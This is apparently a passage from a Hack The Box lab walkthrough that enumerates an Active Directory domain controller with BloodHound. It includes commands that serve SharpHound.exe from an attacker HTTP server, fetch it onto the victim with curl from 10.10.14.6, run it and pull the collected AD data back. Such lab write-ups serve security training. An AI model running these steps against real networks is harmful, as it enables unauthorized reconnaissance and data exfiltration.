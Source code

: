 Check if the machine is a DC:

```powershell
Get-ADDomain
InfrastructureMaster               : dc.support.htb
```

Identify if the user is a member of any groups:

```powershell
whoami /groups
```

Going back to our attacker's machine, we need to install Bloodhound to identify possible attack paths:

```bash
sudo apt install -y neo4j 
sudo neo4j start
```

Download Bloodhound from here:

```bash
wget https://github.com/SpecterOps/BloodHound-Legacy/releases/download/v4.3.1/BloodHound-linux-x64.zip
```

Unzip the file and run Bloodhound:

```bash
./BloodHound --no-sandbox
```

Need to change the password at http://localhost:7474:
- creds: neo4j:[insert your password]

We will upload sharphound.exe to the victim's machine to gather AD data.

BloodHound > Collectors 

Set up an HTTP server:

```bash
python3 -m http.server
```

Now in the evil-winrm session of the victim's machine, fetch the SharpHound.exe:

```powershell
curl -o SharpHound.exe http://10.10.14.6:8000/SharpHound.exe
```

or open Evil-WinRM in the directory of Bloodhound > Collectors and upload SharpHound.exe.

Now execute to the victim's once it is uploaded:

```powershell
./SharpHound.exe
```

It will gather the data and generate a .zip file that we need to download into attacker's machine.
Re-open Evil-WinRM into the home folder so permissions won't mess up with the download.
